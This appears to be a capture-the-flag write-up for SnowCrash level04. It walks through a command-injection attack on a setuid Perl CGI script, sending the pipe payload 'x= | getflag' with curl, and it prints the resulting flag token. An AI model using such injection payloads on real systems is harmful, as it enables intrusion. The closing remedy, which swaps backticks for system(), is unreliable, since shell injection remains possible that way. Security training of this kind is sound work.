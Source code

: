 Level 04
========

*	This time we spawn with one file:
	```console
	level04@SnowCrash:~$ ls -l 
	total 4
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
	```
*	But like everytime -> We use find
	```console
	level04@SnowCrash:~$ find / -type f -group level04 2>/dev/null | grep -v find | grep -v proc | grep -v rofs
	/var/www/level04/level04.pl
	```
*	They have the exact same Perl script, the only difference here is the permissions they are given
	```console
	-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl
	-r-xr-x--- 1 flag04 level04 152 Mar 12 2016 level04.pl
	```
*   Looking at the code we can see that it is vulnerable to command injection :
	```perl
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
	x(param("x"));
	```
	We can in fact see that the content of `y` is printed via the `echo` command !
*	So I tried something like this using the hint given in comment :
	```console
	level04@SnowCrash:~$ curl -X POST -d "x= $PWD" http://localhost:4747
	/home/user/level04
	```
*	This one, I found tricky because we can see echo is executed but what is interesting is that if we use a pipe, ANYTHING is executed :
	```console
	level04@SnowCrash:~$ curl -X POST -d "x= | getflag" http://localhost:4747
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
	```
REMEDY
======

To avoid this vulnerability we should avoid using this line
```perl
	print `echo $y 2>&1`;
```
Instead we should use the Perl's built-in [system()](https://perldoc.perl.org/functions/system) function instead of backticks `(``)`